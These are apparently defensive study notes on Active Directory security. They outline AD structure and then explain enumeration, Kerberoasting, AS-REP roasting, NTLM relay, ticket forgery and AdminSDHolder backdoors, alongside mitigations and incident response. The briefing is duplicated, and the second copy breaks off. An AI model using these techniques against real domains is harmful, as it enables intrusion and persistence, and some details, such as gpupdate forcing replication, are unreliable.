
\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials such as passwords, tokens, and keys. It is crucial to maintain security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even if the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.
\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

Domain Controllers
\begin{itemize}
    \item Main Functions
    \begin{itemize}
        \item Authenticate users and computers
        \item Deploy Group Policy and scripts
    \end{itemize}
\item Replication and Convergence
\begin{itemize}
    \item Intra-site Replication
    \begin{itemize}
        \item Replication between DCs in same site
        \item Default is immediate
    \end{itemize}
\item Inter-site Replication
\begin{itemize}
    \item Replication between DCs in different sites
    \item Default is 180 minutes
    \item Minimum is 15 minutes
    \item Can be instantly forced by using the 'gpupdate /force' switch
\end{itemize}
\item Inter-site Change Notification
\begin{itemize}
    \item Default is immediate
\end{itemize}
\item CMD: repadmin /replsummary
\end{itemize}
\item Not all DCs are equal
\begin{itemize}
    \item Flexible Single Master Operators (FSMO)
    \begin{itemize}
        \item Relarice ID (RID) Master
        \item PDC Emulator
        \item Infrastructure Master
        \item Domain Naming Master (perforest)
        \item Schema Master (per forest)
    \end{itemize}
\end{itemize}
\end{itemize}

Primary Domain Controller (PDC) Emulator
\begin{itemize}
    \item Password changes performed by other DCs in the domain are replicated preferentially to the PDC emulator.
    \item If a logon authentication fails at a given DC in a domain due to a bad password entered incorrectly, the DC will forward the authentication request to the PDC emulator to validate the request against the most current password. If the PDC reports an invalid password to the DC, the DC will send back a bad password failure message to the requesting user.
    \item Account lockout is processed on the PDC emulator.
    \item Immediate replication to the PDC emulator from another DC
    \begin{itemize}
        \item Lockout of an account
        \item Account is unlocked
        \item Password reset on account
        \item "User Must Change Password at Next Logon" manually set for user
        \item Modification of Local Security Authority (LSA) secret
        \item State changes of the RID Manager
    \end{itemize}
\end{itemize}

Active Directory Security Overview

\textbf{Privileged Accounts}
Includes built-in users and groups with privileges, but also newly created users and groups that are granted privileges.

\textbf{Password Policy}
Either via Group Policy or FGPP the details of the Password Policy need to be configured correctly.

\textbf{Permissions}
Both AD and SYSVOL have permissions that provide granular control, but misconfigured can expose AD to an easy attack.

\textbf{Service Accounts}
Include accounts that are used to support applications, services, scripts, scheduled tasks, and more.

\textbf{Network Protocols}
Backward-compatible network protocols leave the network and AD open for attack. SMB and NTLM need to be secured.

\textbf{Trusts}
Domain and Forest trusts have many caveats and configurations that often go misconfigured and open to attack.

\textbf{AD Processes}
Processes such as SDProp, Kerberos authentication, and Kerberos ticketing need to be secured.

\textbf{User Attributes}
Controls such as SPNs, Kerberos delegation, Primary Group ID, SIDHistory, and more, need to be secured.

\textbf{Unsecure Users}
These accounts are those that have not logged or changed their password for quite some time, as well as those with non-expiring passwords.

\textbf{User Rights}
Each domain controller has special privileges that can grant power over the server and even the entire AD infrastructure.

\textbf{AAD Connections}
Settings within the on-prem AD that allow for communications and synchronization with Azure AD need to be secured.

\textbf{Computer Attributes}
Kerberos delegations and group memberships can provide an unmonitored attack surface and every attacker looks for these.

The Windows Security Model

\begin{itemize}
    \item Security Identifiers (SIDs)
    \item Tokens
    \item Object-based Access Control
    \item User Authentication
\end{itemize}

SIDS
\begin{itemize}
    \item User and computer account = 1 single object in AD
    \begin{itemize}
        \item A user / computer account only exists one time in AD
        \item User / computer accounts can have memberships in many groups
    \end{itemize}
\item Security Identifiers (SIDs)
\begin{itemize}
    \item Users
    \item Groups
    \item Computers
\end{itemize}
\item PowerShell:
\begin{itemize}
    \item \texttt{Get-aduser nina -properties sid}

\end{itemize}
\end{itemize}

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{sid.png}
    \caption{Security Identifiers (SIDs)}
    \label{fig:placeholder}
\end{figure}

Authentication Tokens
\begin{itemize}
    \item Given out by Domain Controller at user logon
    \item Contents
    \begin{itemize}
        \item User SID
        \item Group SIDs
        \item Privileges
        \item CMD:
        \begin{itemize}
            \item \texttt{whoami /all}
        \end{itemize}
    \item Only refreshed with user logged off or upon computer restart
    \end{itemize}
\end{itemize}

Object-based Access Control
\begin{itemize}
    \item ACL-Access Control List-Security tab
    \begin{itemize}
        \item Associated with Windows security objects
        \item Entries can include: users, groups, computers
        \item Defines the access per security principal
        \item ACL is list of SIDs
        \begin{itemize}
            \item GUI translates
            \item Orphaned SIDs
        \end{itemize}
    \end{itemize}
\item Objects with ACLs
\begin{itemize}
    \item Files and Folders
    \item Registry Keys
    \item Printers
    \item AD Objects
    \item Services
\end{itemize}
\end{itemize}

\begin{figure}
    \centering
    
    \includegraphics[width=0.75\linewidth]{acl.png}
    \caption{Access Control List (ACL)}
    \label{fig:placeholder}
\end{figure}

User Authentication

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{whoamicmd.png}
    \caption{whoami command}
\end{figure}

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dlm.png}
    \caption{DLM}
    \label{fig:placeholder}
\end{figure}


Book aims to teach:
\begin{itemize}
    \item Incident detection, prevention, and response through continuous security monitoring for success in a high-stakes analysis.
    \item Processes in security operations, vulnerability management, incident response and management, and how to apply best practices for reporting and communication.
    \item Processes in security operations to differentiate between cyber threat intelligence (CTI) and threat hunting concepts; identify and analyze malicious activities using appropriate tools and techniques.
    \item Implement and analyze vulnerability assessments, prioritize vulnerabilities, and make recommendations on mitigating and minimizing attack surfaces and vulnerability response.
    \item How to apply updated concepts of attack methodology frameworks, perform blue team incident response activities and understand the incident management lifecycle.
    \item Apply communication best practices in vulnerability management and incident response as it relates to stakeholders, action plans, escalation, and metrics.
\end{itemize}

\begin{abstract}
Identify network hardware components in LANs, WANs, and PANs
Understand the OSI Reference model and the TCP/IP security stack.
Perform domain management and administrative tasks using Windows Server Active Directory and Group Policy tools.
Explain basic theory, methodologies, technologies, and components that facilitate network data transmissions.



\begin{itemize}
\item Explain the OSI and TCP/IP models
\item Explain properties of network traffic
\item Understand difference between switched and routed networks
\item Understand IP networks, port monitoring, and protocols
\item Monitor and troubleshoot network issues
\item Explain network attacks and mitigation
\item Install and configure security devices
\item Explain network authentication, authorization, accounting, and network access control (NAC)
\item Deploy and troubleshoot cabling solutions
\item Troubleshoot wireless technologies
\item Compare and contrast WAN technologies
\item Use remote access methods
\item Identify site policies and best practices
\item Classify network intrusion elements
\item Understand artifacts related to network intrusions
\item Explain the basics of networking and network architecture
\item Install Nmap in a Windows and Linux environment
\item Determine what hosts, ports, and services are available on a network through host discovery scanning
\end{itemize}
\end{abstract}


\begin{itemize}

        \item Network Traffic Collection
            \item Explain basic theory, technologies, and components that facilitate network data transmissions
            \item Examine network traffic and previously sniffed data
            \item Perform a logical and physical assessment of a network to identify potential witness devices and the data they contain
            \item Assess a network and configure  and place a network tap
            \item Configure network data acquisition tools
            \item Use common internet and OSINT-related research utilities
            \item Analyze ingress / egress network traffic and system artifacts to identify probing and intrusion techniques and Indicators of Compromise (IOC)
    \end{itemize}

\begin{abstract}
        \item Network Scanning
            \item OpenVAS
                \item Configure the target, parameters 
\end{abstract}
  










Active Directory: Enumeration to Persistence

Active Directory Exploitation and Lateral Movement Briefing
1. Introduction to Active Directory
Active Directory (AD) is a hierarchical directory service developed by Microsoft that stores information about network objects such as user accounts, computers, and shared resources. It provides methods for storing and making this data available to network users and administrators, offering centralized user and rights management. AD is crucial for organizations of all sizes, allowing for better control over computer and user configurations, and enhancing network security by integrating logon authentication and access control. However, due to its complexity and granular management layer, Active Directory also presents a "very large attack surface."

2. Active Directory Enumeration
Active Directory enumeration is the initial phase in security assessments and penetration testing, where attackers gather information about the AD infrastructure. This process aims to extract valuable data such as user accounts, group memberships, system configurations, and other relevant network information, which is critical for understanding the network's structure and identifying potential attack vectors.

2.1. Enumeration Techniques and Tools
Enumeration can be performed manually or with automated tools. Key types of enumeration include:

User Enumeration: Identifying valid user accounts. This can involve brute-force attacks, exploiting differential system responses to valid vs. invalid usernames, or using publicly available user lists. Successful user enumeration can lead to "privilege escalation, phishing and social engineering," and "lateral movement."
Computer Enumeration: Discovering and cataloging active computers, their configurations, and services. This helps understand the network structure and identify potential targets.
Share Enumeration: Identifying and cataloging shared resources (files, folders) and their permissions. Improperly configured shares can expose sensitive data and offer unauthorized entry points.
LDAP Enumeration: Utilizing the Lightweight Directory Access Protocol to query Active Directory for users, groups, computers, and privileged accounts. LDAP enumeration tools can scan for LDAP services, list user accounts, and extract domain details.
Common Tools for Enumeration:

Nmap: A versatile network scanner for identifying active hosts, open ports, and services.
Enum4linux: A Linux tool for enumerating Windows Active Directory and SMB services, including LDAP.
PowerView.py: A Python script for Active Directory reconnaissance, enabling detailed enumeration of users, groups, and computers.
CrackMapExec (CME): A post-exploitation tool for network enumeration and lateral movement.
Kerbrute: A tool for Kerberos pre-authentication brute-forcing and user enumeration.
Impacket: A collection of Python classes for programmatic access to network protocols, providing tools for enumeration and exploitation.
Windapsearch: A Python script that uses LDAP queries for enumerating users, groups, computers, and privileged accounts.
Ldapsearch: A command-line tool for performing LDAP queries.
Rpcclient: A command-line tool for interacting with Microsoft RPC services, useful for enumerating domain users and groups.
BloodHound: A powerful Active Directory reconnaissance tool that visualizes trust relationships, group memberships, and potential attack paths, helping identify privilege escalation opportunities. Its Python ingestor, bloodhound.py, collects AD data for analysis in the BloodHound GUI.
2.2. Risks and Mitigation of Enumeration Attacks
While legitimate for administrative purposes, unauthorized enumeration can lead to:

Unauthorized Information Disclosure: Revealing sensitive data about the network infrastructure.
Privilege Escalation: Exposing high-privilege accounts and administrative groups that attackers can target.
Amplification of Attack Surface: Providing attackers with a clear roadmap of potential high-value targets.
Impact on Network Security: Facilitating various attacks like spear-phishing and lateral movement.
Mitigation Strategies:

Strict Access Controls: Limit enumeration activities to authorized personnel only.
Network Segmentation: Isolate critical systems to reduce the potential impact of a successful enumeration.
Regular Audits: Continuously identify and remediate vulnerabilities and misconfigurations that could be exposed.
Incident Response Plan: Have a well-defined plan to address and mitigate unauthorized enumeration incidents quickly.
Anonymity in Error Messages: Return generic error messages (e.g., 401 or 404) for both non-existent and unauthorized resources to avoid confirming account existence.
Avoid Sequential IDs: Use GUIDs (Globally Unique Identifiers) instead of predictable sequential IDs for resources to make guessing harder.
Never Trust the Frontend: All validation and business logic should be handled on the backend, as frontend data can be easily manipulated by attackers.
3. Privilege Escalation Techniques
Once initial access or enumeration yields valuable information, attackers often aim to escalate privileges to gain higher levels of control within the domain.

3.1. AS-REP Roasting
AS-REP Roasting targets user accounts that do not require Kerberos pre-authentication. In this attack, an attacker requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC) without knowing the user's password. If pre-authentication is disabled for the user, the KDC issues a TGT encrypted with the user's NTLM hash. The attacker can then capture this TGT and "crack the user's password hash offline" using tools like hashcat or John the Ripper to recover the plaintext password.

Mitigation: Ensure pre-authentication is enabled for all user accounts in Active Directory, implement strong password policies, and monitor authentication logs for suspicious activities.

3.2. Kerberoasting
Kerberoasting is an attack technique to obtain Ticket Granting Service (TGS) tickets for service accounts and then crack them offline to retrieve the service account's password hash. Service tickets are encrypted with the service account's NTLM hash, and the KDC does not verify the user's identity when issuing these tickets. Attackers can request service tickets for services (e.g., Microsoft SQL Server) that use service accounts, capture the encrypted TGS, and crack the hash offline to gain the plaintext password.

Mitigation: Use strong, complex passwords for service accounts and regular rotation of these passwords.

3.3. NTLM Relay Attacks
NTLM relay attacks involve an attacker intercepting NTLM authentication messages between a client (victim) and a server (target) and relaying them to another server to establish a session or perform actions on behalf of the victim. NTLM is a legacy protocol that remains widely used, and "relay attacks are the easiest way to compromise domain-joined hosts nowadays, paving a path for lateral movement and privilege escalation."

Key Concepts:

NTLMv1 vs. NTLMv2: NTLMv1 is susceptible to rainbow table attacks and easier hash recovery due to weaker encryption and lack of salting. NTLMv2 is more secure, incorporating HMAC-MD5 and additional information like timestamps and client challenges to prevent rainbow table attacks.
LmCompatibilityLevel: A registry value controlling NTLM version support. Misconfigurations (e.g., enabling NTLMv1 as a client on DCs) can have severe consequences.
Authentication Coercion: Techniques like the Printer Bug (abusing Print Spooler service) and PetitPotam (abusing Encrypting File System service) can force a victim machine to authenticate to an attacker-controlled host without user interaction. Attackers can also drop specially crafted files (e.g., .url, .lnk) in strategic file shares to trigger authentication attempts when a user browses the folder.
Relay Targets:

SMB (Port 445): SMB servers do not support channel binding with NTLM, making them vulnerable to relay attacks even if the victim negotiates signing. Attackers can gain access to shares (C$, ADMIN$), dump LSA secrets, or move laterally via Service Control Manager.
ADCS (Certificate Authority Web Enrollment): If ADCS web enrollment is available over HTTP or HTTPS with EPA (Enhanced Protection for Authentication/channel binding) disabled, an attacker can relay NTLM authentication to obtain a certificate for the victim, then use it for authentication (e.g., PKINIT) to impersonate the victim.
LDAP/LDAPS: While more complex, LDAP/LDAPS can be targeted. The Web Client service, when running, can trigger WebDAV traffic, which doesn't negotiate signing, making it compatible with relaying to LDAP. This can allow for Resource-Based Constrained Delegation (RBCD) or Shadow Credentials attacks.
Mitigation for NTLM Relay: Enforce SMB signing, enable EPA/channel binding for services running over TLS (LDAPS, HTTPS), and ensure privileged users are part of the Protected Users security group (which restricts NTLM usage and prevents caching of NT hashes in LSA memory).

3.4. SQL Server Exploitation
SQL Server instances can be exploited for privilege escalation. Attackers can brute-force SQL server logins, and if xp\_cmdshell is enabled (or can be enabled by an attacker with sufficient privileges), they can execute arbitrary commands on the underlying operating system. If SeImpersonatePrivilege is enabled for the SQL service account (common for OS service accounts), tools like PrintSpoofer.exe can be used to elevate to a SYSTEM shell. SQL Server databases configured as "Trustworthy" (TRUSTWORTHY property set to ON) are also vulnerable, as this can allow sysadmin privilege escalation through malicious assemblies.

3.5. Domain Trust Exploitation
Active Directory domains can have trust relationships (e.g., parent-child trusts, forest trusts) that allow users from one domain to access resources in another. Attackers can leverage these trusts for lateral movement and privilege escalation by impersonating users or groups with foreign group membership. For example, if a user from a trusted domain is a member of a BUILTIN\textbackslash Administrators group in the trusting domain, they can be used to gain administrative access across the trust.

3.6. Resource-Based Constrained Delegation (RBCD)
RBCD is a Kerberos feature that allows a service account to impersonate users to access resources on behalf of that user, but with specific constraints. An attacker who gains control over a computer object can modify its msDS-AllowedToActOnBehalfOfOtherIdentity attribute to add a controlled (fake) computer account to the target's trust list. This enables the fake computer account to impersonate users to the target, leading to potential system compromise on the target server.

3.7. Printer Bug Flaw (SpoolSample.exe)
The Printer Bug (MS-RPRN protocol flaw) allows any domain user to force a print server to authenticate to an arbitrary host controlled by the attacker over SMB. This can be combined with unconstrained delegation to force a Domain Controller to authenticate to an attacker-controlled host, potentially allowing the capture of TGTs for privileged users that log on.

3.8. LLMNR and NBNS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Server (NBNS) are name resolution services used when DNS is unavailable. They broadcast queries to all devices on a local network, and if a device has the hostname, it responds with its IP. These protocols are insecure because they transmit usernames and password hashes, making them vulnerable to poisoning attacks where an attacker can impersonate a requested host and capture authentication attempts.

4. Active Directory Persistence
Attackers aim to maintain access to a compromised Active Directory environment.

4.1. Golden Ticket Attack
The Golden Ticket attack allows attackers to forge and sign Ticket Granting Tickets (TGTs) using the krbtgt account's password hash. These forged tickets are considered valid by AD servers, enabling an attacker to impersonate any user, including a Domain Administrator, even if the user does not exist. This provides persistent administrative access to the domain.

Required Elements: Domain Name, Domain SID, Username to Impersonate, KRBTGT's hash.

4.2. Silver Ticket Attack
The Silver Ticket attack uses a machine account's NTLM hash (the hash of the SYSTEM account) to forge Ticket Granting Service (TGS) Kerberos tickets. Unlike Golden Tickets, which grant access to the entire domain, Silver Tickets grant access to specific services on a single machine. This attack bypasses the Domain Controller, making it stealthier as it leaves fewer logs.

4.3. AdminSDHolder and ACL Attack
Active Directory uses the AdminSDHolder object and the Security Descriptor propagator (SDProp) process to protect privileged accounts and groups. AdminSDHolder has a unique Access Control List (ACL) that acts as a template for permissions on built-in privileged AD groups. SDProp runs every 60 minutes (by default) to ensure consistency, overwriting any unauthorized modifications to these protected objects' ACLs with the AdminSDHolder's ACL.

Abuse: Attackers can poison AdminSDHolder's ACL by injecting a backdoor into it. This grants specific permissions (e.g., GenericAll, Reset Password, DCSync) to a chosen user, and these permissions are then propagated to all protected groups, effectively providing persistent access to domain administration. This method is stealthier than directly adding a user to a Domain Admins group.

5. Incident Response and Prevention
Effective cybersecurity requires proactive measures and a robust incident response plan.

5.1. Windows Hardening Best Practices
Hardening Windows systems reduces vulnerabilities and the attack surface. Key practices include:

Firewall Configuration: Enable all profiles, disable inbound by default, and only enable inbound/outbound rules for necessary services. Be wary of remote access protocols like Telnet, SSH, and RDP.
Service Management: Disable unnecessary services and executables that run on startup/logon.
User Account Control (UAC): Enable Admin Approval Mode for administrators.
Patch Management: Promptly apply all appropriate patches, hotfixes, and service packs.
Antivirus: Ensure Windows Defender Antivirus is enabled and up to date.
Password Policy: Implement strong password policies (min 8-64 chars, complexity, max age 90 days, no reversible encryption).
Account Lockout Policy: Configure account lockout duration and thresholds for failed attempts.
Network Access Restrictions: "Do not allow anonymous enumeration of SAM accounts" and "shares" (restrictanonymous, restrictanonymoussam registry keys).
LAN Manager Authentication Level: Set to "Send NTLMv2 response only. Refuse LM \& NTLM" (lmcompatibilitylevel registry key value 5).
Disable Admin Autologon: Prevent automatic login for administrative accounts.
Disable PlainTextPassword: Prevent plain text password storage.
Disable IPv6: If not needed, disable IPv6.
Disable Remote Desktop Protocol (RDP): If not needed.
5.2. Incident Response Plan
An incident response plan outlines the steps an organization takes to identify, contain, mitigate, and recover from cybersecurity incidents. It involves:

Preparation: Developing and maintaining a plan, assigning roles (e.g., legal, technical teams), and establishing clear communication protocols.
Detection \& Analysis: Identifying suspicious activities using log sources (host event logs, authentication logs, network traffic), threat intelligence feeds, and proactive monitoring measures (NIDS, network flow monitoring, endpoint monitoring, vulnerability scanning). Threat modeling helps identify potential attack paths.
Containment: Rapidly isolating affected systems and networks to prevent further spread. This includes capturing forensic images, updating firewalls, blocking unauthorized access, closing specific ports, and rotating credentials.
Eradication: Eliminating the root cause of the incident and removing all malicious components.
Recovery: Restoring affected systems and services to normal operation.
Post-Incident Activity: Conducting a post-mortem analysis to identify lessons learned and improve future response capabilities.
Key Distinction: Incident Response (IR) vs. Digital Forensics (DF)

IR: "Immediate and aimed at stopping threats and reducing impact during an incident to resume normal business operations." Highly time-sensitive.
DF: "About precision—collecting, preserving, and analyzing evidence for legal or potential legal matters (civil or criminal)." Focuses on strict chain of custody and legal admissibility standards.
Active Directory Exploitation: Techniques and Defenses

Active Directory Exploitation and Lateral Movement Briefing
1. Introduction to Active Directory
Active Directory (AD) is a hierarchical directory service developed by Microsoft that stores information about network objects such as user accounts, computers, and shared resources. It provides methods for storing and making this data available to network users and administrators, offering centralized user and rights management. AD is crucial for organizations of all sizes, allowing for better control over computer and user configurations, and enhancing network security by integrating logon authentication and access control. However, due to its complexity and granular management layer, Active Directory also presents a "very large attack surface."

2. Active Directory Enumeration
Active Directory enumeration is the initial phase in security assessments and penetration testing, where attackers gather information about the AD infrastructure. This process aims to extract valuable data such as user accounts, group memberships, system configurations, and other relevant network information, which is critical for understanding the network's structure and identifying potential attack vectors.

2.1. Enumeration Techniques and Tools
Enumeration can be performed manually or with automated tools. Key types of enumeration include:

User Enumeration: Identifying valid user accounts. This can involve brute-force attacks, exploiting differential system responses to valid vs. invalid usernames, or using publicly available user lists. Successful user enumeration can lead to "privilege escalation, phishing and social engineering," and "lateral movement."
Computer Enumeration: Discovering and cataloging active computers, their configurations, and services. This helps understand the network structure and identify potential targets.
Share Enumeration: Identifying and cataloging shared resources (files, folders) and their permissions. Improperly configured shares can expose sensitive data and offer unauthorized entry points.
LDAP Enumeration: Utilizing the Lightweight Directory Access Protocol to query Active Directory for users, groups, computers, and privileged accounts. LDAP enumeration tools can scan for LDAP services, list user accounts, and extract domain details.
Common Tools for Enumeration:

Nmap: A versatile network scanner for identifying active hosts, open ports, and services.
Enum4linux: A Linux tool for enumerating Windows Active Directory and SMB services, including LDAP.
PowerView.py: A Python script for Active Directory reconnaissance, enabling detailed enumeration of users, groups, and computers.
CrackMapExec (CME): A post-exploitation tool for network enumeration and lateral movement.
Kerbrute: A tool for Kerberos pre-authentication brute-forcing and user enumeration.
Impacket: A collection of Python classes for programmatic access to network protocols, providing tools for enumeration and exploitation.
Windapsearch: A Python script that uses LDAP queries for enumerating users, groups, computers, and privileged accounts.
Ldapsearch: A command-line tool for performing LDAP queries.
Rpcclient: A command-line tool for interacting with Microsoft RPC services, useful for enumerating domain users and groups.
BloodHound: A powerful Active Directory reconnaissance tool that visualizes trust relationships, group memberships, and potential attack paths, helping identify privilege escalation opportunities. Its Python ingestor, bloodhound.py, collects AD data for analysis in the BloodHound GUI.
2.2. Risks and Mitigation of Enumeration Attacks
While legitimate for administrative purposes, unauthorized enumeration can lead to:

Unauthorized Information Disclosure: Revealing sensitive data about the network infrastructure.
Privilege Escalation: Exposing high-privilege accounts and administrative groups that attackers can target.
Amplification of Attack Surface: Providing attackers with a clear roadmap of potential high-value targets.
Impact on Network Security: Facilitating various attacks like spear-phishing and lateral movement.
Mitigation Strategies:

Strict Access Controls: Limit enumeration activities to authorized personnel only.
Network Segmentation: Isolate critical systems to reduce the potential impact of a successful enumeration.
Regular Audits: Continuously identify and remediate vulnerabilities and misconfigurations that could be exposed.
Incident Response Plan: Have a well-defined plan to address and mitigate unauthorized enumeration incidents quickly.
Anonymity in Error Messages: Return generic error messages (e.g., 401 or 404) for both non-existent and unauthorized resources to avoid confirming account existence.
Avoid Sequential IDs: Use GUIDs (Globally Unique Identifiers) instead of predictable sequential IDs for resources to make guessing harder.
Never Trust the Frontend: All validation and business logic should be handled on the backend, as frontend data can be easily manipulated by attackers.
3. Privilege Escalation Techniques
Once initial access or enumeration yields valuable information, attackers often aim to escalate privileges to gain higher levels of control within the domain.

3.1. AS-REP Roasting
AS-REP Roasting targets user accounts that do not require Kerberos pre-authentication. In this attack, an attacker requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC) without knowing the user's password. If pre-authentication is disabled for the user, the KDC issues a TGT encrypted with the user's NTLM hash. The attacker can then capture this TGT and "crack the user's password hash offline" using tools like hashcat or John the Ripper to recover the plaintext password.

Mitigation: Ensure pre-authentication is enabled for all user accounts in Active Directory, implement strong password policies, and monitor authentication logs for suspicious activities.

3.2. Kerberoasting
Kerberoasting is an attack technique to obtain Ticket Granting Service (TGS) tickets for service accounts and then crack them offline to retrieve the service account's password hash. Service tickets are encrypted with the service account's NTLM hash, and the KDC does not verify the user's identity when issuing these tickets. Attackers can request service tickets for services (e.g., Microsoft SQL Server) that use service accounts, capture the encrypted TGS, and crack the hash offline to gain the plaintext password.

Mitigation: Use strong, complex passwords for service accounts and regular rotation of these passwords.

3.3. NTLM Relay Attacks
NTLM relay attacks involve an attacker intercepting NTLM authentication messages between a client (victim) and a server (target) and relaying them to another server to establish a session or perform actions on behalf of the victim. NTLM is a legacy protocol that remains widely used, and "relay attacks are the easiest way to compromise domain-joined hosts nowadays, paving a path for lateral movement and privilege escalation."

Key Concepts:

NTLMv1 vs. NTLMv2: NTLMv1 is susceptible to rainbow table attacks and easier hash recovery due to weaker encryption and lack of salting. NTLMv2 is more secure, incorporating HMAC-MD5 and additional information like timestamps and client challenges to prevent rainbow table attacks.
LmCompatibilityLevel: A registry value controlling NTLM version support. Misconfigurations (e.g., enabling NTLMv1 as a client on DCs) can have severe consequences.
Authentication Coercion: Techniques like the Printer Bug (abusing Print Spooler service) and PetitPotam (abusing Encrypting File System service) can force a victim machine to authenticate to an attacker-controlled host without user interaction. Attackers can also drop specially crafted files (e.g., .url, .lnk) in strategic file shares to trigger authentication attempts when a user browses the folder.
Relay Targets:

SMB (Port 445): SMB servers do not support channel binding with NTLM, making them vulnerable to relay attacks even if the victim negotiates signing. Attackers can gain access to shares (C$, ADMIN$), dump LSA secrets, or move laterally via Service Control Manager.
ADCS (Certificate Authority Web Enrollment): If ADCS web enrollment is available over HTTP or HTTPS with EPA (Enhanced Protection for Authentication/channel binding) disabled, an attacker can relay NTLM authentication to obtain a certificate for the victim, then use it for authentication (e.g., PKINIT) to impersonate the victim.
LDAP/LDAPS: While more complex, LDAP/LDAPS can be targeted. The Web Client service, when running, can trigger WebDAV traffic, which doesn't negotiate signing, making it compatible with relaying to LDAP. This can allow for Resource-Based Constrained Delegation (RBCD) or Shadow Credentials attacks.
Mitigation for NTLM Relay: Enforce SMB signing, enable EPA/channel binding for services running over TLS (LDAPS, HTTPS), and ensure privileged users are part of the Protected Users security group (which restricts NTLM usage and prevents caching of NT hashes in LSA memory).

3.4. SQL Server Exploitation
SQL Server instances can be exploited for privilege escalation. Attackers can brute-force SQL server logins, and if xp\_cmdshell is enabled (or can be enabled by an attacker with sufficient privileges), they can execute arbitrary commands on the underlying operating system. If SeImpersonatePrivilege is enabled for the SQL service account (common for OS service accounts), tools like PrintSpoofer.exe can be used to elevate to a SYSTEM shell. SQL Server databases configured as "Trustworthy" (TRUSTWORTHY property set to ON) are also vulnerable, as this can allow sysadmin privilege escalation through malicious assemblies.

3.5. Domain Trust Exploitation
Active Directory domains can have trust relationships (e.g., parent-child trusts, forest trusts) that allow users from one domain to access resources in another. Attackers can leverage these trusts for lateral movement and privilege escalation by impersonating users or groups with foreign group membership. For example, if a user from a trusted domain is a member of a BUILTIN\textbackslash{}Administrators group in the trusting domain, they can be used to gain administrative access across the trust.

3.6. Resource-Based Constrained Delegation (RBCD)
RBCD is a Kerberos feature that allows a service account to impersonate users to access resources on behalf of that user, but with specific constraints. An attacker who gains control over a computer object can modify its msDS-AllowedToActOnBehalfOfOtherIdentity attribute to add a controlled (fake) computer account to the target's trust list. This enables the fake computer account to impersonate users to the target, leading to potential system compromise on the target server.

3.7. Printer Bug Flaw (SpoolSample.exe)
The Printer Bug (MS-RPRN protocol flaw) allows any domain user to force a print server to authenticate to an arbitrary host controlled by the attacker over SMB. This can be combined with unconstrained delegation to force a Domain Controller to authenticate to an attacker-controlled host, potentially allowing the capture of TGTs for privileged users that log on.

3.8. LLMNR and NBNS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Server (NBNS) are name resolution services used when DNS is unavailable. They broadcast queries to all devices on a local network, and if a device has the hostname, it responds with its IP. These protocols are insecure because they transmit usernames and password hashes, making them vulnerable to poisoning attacks where an attacker can impersonate a requested host and capture authentication attempts.

4. Active Directory Persistence
Attackers aim to maintain access to a compromised Active Directory environment.

4.1. Golden Ticket Attack
The Golden Ticket attack allows attackers to forge and sign Ticket Granting Tickets (TGTs) using the krbtgt account's password hash. These forged tickets are considered valid by AD servers, enabling an attacker to impersonate any user, including a Domain Administrator, even if the user does not exist. This provides persistent administrative access to the domain.

Required Elements: Domain Name, Domain SID, Username to Impersonate, krbtgt's hash.

4.2. Silver Ticket Attack
The Silver Ticket attack uses a machine account's NTLM hash (the hash of the SYSTEM account) to forge Ticket Granting Service (TGS) Kerberos tickets. Unlike Golden Tickets, which grant access to the entire domain, Silver Tickets grant access to specific services on a single machine. This attack bypasses the Domain Controller, making it stealthier as it leaves fewer logs.

4.3. AdminSDHolder and ACL Attack
Active Directory uses the AdminSDHolder object and the Security Descriptor propagator (SDProp) process to protect privileged accounts and groups. AdminSDHolder has a unique Access Control List (ACL) that acts as a template for permissions on built-in privileged AD groups. SDProp runs every 60 minutes (by default) to ensure consistency, overwriting any unauthorized modifications to these protected objects' ACLs with the AdminSDHolder's ACL.

Abuse: Attackers can poison AdminSDHolder's ACL by injecting a backdoor into it. This grants specific permissions (e.g., GenericAll, Reset Password, DCSync) to a chosen user, and these permissions are then propagated to all protected groups, effectively providing persistent access to domain administration. This method is stealthier than directly adding a user to a Domain Admins group.

5. Incident Response and Prevention
Effective cybersecurity requires proactive measures and a robust incident response plan.

5.1. Windows Hardening Best Practices
Hardening Windows systems reduces vulnerabilities and the attack surface. Key practices include:

Firewall Configuration: Enable all profiles, disable inbound by default, and only enable inbound/outbound rules for necessary services. Be wary of remote access protocols like Telnet, SSH, and RDP.
Service Management: Disable unnecessary services and executables that run on startup/logon.
User Account Control (UAC): Enable Admin Approval Mode for administrators.
Patch Management: Promptly apply all appropriate patches, hotfixes, and service packs.
Antivirus: Ensure Windows Defender Antivirus is enabled and up to date.
Password Policy: Implement strong password policies (min 8-64 chars, complexity, max age 90 days, no reversible encryption).
Account Lockout Policy: Configure account lockout duration and thresholds for failed attempts.
Network Access Restrictions: "Do not allow anonymous enumeration of SAM accounts" and "shares" (restrictanonymous, restrictanonymoussam registry keys).
LAN Manager Authentication Level: Set to "Send NTLMv2 response only. Refuse LM \& NTLM" (lmcompatibilitylevel registry key value 5).
Disable Admin Autologon: Prevent automatic login for administrative accounts.
Disable PlainTextPassword: Prevent plain text password storage.
Disable IPv6: If not needed, disable IPv6.
Disable Remote Desktop Protocol (RDP): If not needed.
5.2. Incident Response Plan
An incident response plan outlines the steps an organization takes to identify, contain, mitigate, and recover from cybersecurity incidents. It involves:

Preparation: Developing and maintaining a plan, assigning roles (e.g., legal, technical teams), and establishing clear communication protocols.
Detection \& Analysis: Identifying suspicious activities using log sources (host event logs, authentication logs, network traffic), threat intelligence feeds, and proactive monitoring measures (NIDS, network flow monitoring, endpoint monitoring, vulnerability scanning). Threat modeling helps identify potential attack paths.
